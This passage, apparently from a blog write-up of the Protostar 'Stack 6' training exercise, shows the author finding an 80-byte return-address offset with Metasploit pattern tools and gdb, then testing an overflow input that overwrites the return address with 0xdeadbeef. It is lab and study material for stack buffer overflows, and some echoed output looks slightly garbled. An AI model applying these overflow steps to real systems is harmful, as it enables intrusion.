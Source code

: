 
The first thing I tried to do, was to set it up just like I did on Stack 5.

First, I needed to find the offset (using a locally copied version, since the real one was suid and wouldn't dump a core):

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7A

d8Ad9Ae0Ae1Ae

user@protostar:~$ ./stack6
input path please: 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7A

d8Ad9Ae0Ae1Ae
got path 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7A

d8Ad9Ae0Ae1Ae
Segmentation fault (core dumped)
user@protostar:~$ gdb --quiet --core=/tmp/core.11.stack6.2279
Core was generated by `./stack6'.
Program terminated with signal 11, Segmentation fault.
#0  0x37634136 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x37634136
80
```

Great, so now we know the EIP offset is 80 bytes.  I for some reason, just wanted to verify it, and also see if I   had some space after the return address for shellcode.

```
user@protostar:~$ echo `perl -e 'print "A"x80 . "\xEF\xBE\xAD\xDE" . "C"x100'` | ./stack6
input path please: got path 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ▒AAAAAAAAAAAAﾭ▒CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
Segmentation fault (core dumped)
user@protostar:~$ gdb --quiet --core=/tmp/core.11.stack6.2316
Core was generated by `./stack6'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10s $esp
0xbffff7f0:      'C' <repeats 100 times>
0xbffff855:      ""
0xbffff856:      ""
0xbffff857:      ""
0xbffff858:      "\001"
0xbffff85a:      ""
0xbffff85b:      ""
0xbffff85c:      "Ѓ\004\b"
0xbffff861:      ""
0xbffff862:      ""
```
